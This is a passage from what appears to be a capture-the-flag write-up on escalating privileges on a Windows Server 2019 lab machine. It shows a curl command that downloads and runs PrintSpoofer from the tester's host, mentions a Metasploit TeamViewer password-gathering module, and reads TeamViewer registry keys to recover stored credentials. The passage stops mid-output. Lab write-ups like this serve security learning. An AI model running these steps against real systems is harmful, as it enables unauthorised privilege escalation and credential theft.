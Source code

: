 We are on a <mark>Windows Server 2019</mark> system, which means we could use [PrintSpoofer](https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0) to escalate our privileges.

{% highlight shell %}
PS C:\Users\Public\Desktop> systeminfo | findstr /C:"OS Name"
OS Name:                   Microsoft Windows Server 2019 Standard

PS C:\Users\Public\Desktop> systeminfo | findstr /C:"System Type"
System Type:               x64-based PC
{% endhighlight %}

As for <mark>TeamViewer 7</mark>, <mark>Metasploit</mark> has a module for TeamViewer <mark>credential gathering</mark> and our version is vulnerable to this attack.

{% highlight shell %}
[msf](Jobs:0 Agents:0) post(windows/gather/credentials/teamviewer_passwords) >> info -d
{% endhighlight %}

![teamviewer_passwords info](/assets/img/posts/Remote/teamviewer_passwords-info.png)

We will try escalating our privileges utilizing both paths.

### PrintSpoofer

Unfortunately, it does not seem to work. It just hangs up. I tried with different variations of executing this attack, but no luck...

{% highlight shell %}
PS C:\Windows\temp> curl http://10.10.14.18:1337/PrintSpoofer64.exe -o ps.exe
PS C:\Windows\temp> .\ps.exe -i -c cmd
{% endhighlight %}

### TeamViewer 7

We could either get a <mark>Meterpreter</mark> shell and exploit the vulnerability using <mark>Metasploit</mark>, or analyze the code and exploit it by ourselves. Let’s do the latter.

This is where our <mark>TeamViewer</mark> is in the <mark>registry</mark>. Using the <mark>Get-ItemProperty -Path .</mark> cmdlet displays the registry entries and their corresponding values in that key.

{% highlight shell %}
PS C:\> cd HKLM:\SOFTWARE\WOW6432Node\TeamViewer\Version7
PS HKLM:\SOFTWARE\WOW6432Node\TeamViewer\Version7> Get-ItemProperty -Path .


StartMenuGroup            : TeamViewer 7
InstallationDate          : 2020-02-20
InstallationDirectory     : C:\Program Files (x86)\TeamViewer\Version7
Always_Online             : 1
Security_ActivateDirectIn : 0
Version                   : 7.0.43148
ClientIC                  : 301094961
PK                        : {191, 173, 42, 237...}
SK                        : {248, 35, 152, 56...}
LastMACUsed               : {, 0050569451D1}